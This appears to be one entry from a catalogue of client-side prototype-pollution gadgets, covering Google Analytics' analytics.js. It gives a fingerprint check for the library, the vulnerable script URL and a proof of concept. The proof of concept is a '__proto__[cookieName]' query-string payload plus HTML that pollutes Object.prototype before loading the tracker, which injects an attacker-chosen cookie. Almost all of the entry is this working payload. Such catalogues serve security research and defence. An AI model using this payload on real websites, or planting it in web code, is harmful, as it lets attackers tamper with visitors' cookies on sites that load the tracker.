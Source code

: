 ## Google Analytics

### URL

https://developers.google.com/analytics/devguides/collection/analyticsjs

### JS Fingerprint

```js
return (typeof GoogleAnalyticsObject !== 'undefined')
```

### Vulnerable code fragment

https://www.google-analytics.com/analytics.js

### PoC

```
?__proto__[cookieName]=COOKIE%3DInjection%3B
```

```html
<script>
	Object.prototype.cookieName="Cookie=Injection;"
</script>

<script>
(function(i,s,o,g,r,a,m){i['GoogleAnalyticsObject']=r;i[r]=i[r]||function(){
(i[r].q=i[r].q||[]).push(arguments)},i[r].l=1*new Date();a=s.createElement(o),
m=s.getElementsByTagName(o)[0];a.async=1;a.src=g;m.parentNode.insertBefore(a,m)
})(window,document,'script','https://www.google-analytics.com/analytics.js','ga');

ga('create', 'UA-XXXXX-Y', 'auto');
ga('send', 'pageview');
</script>
```
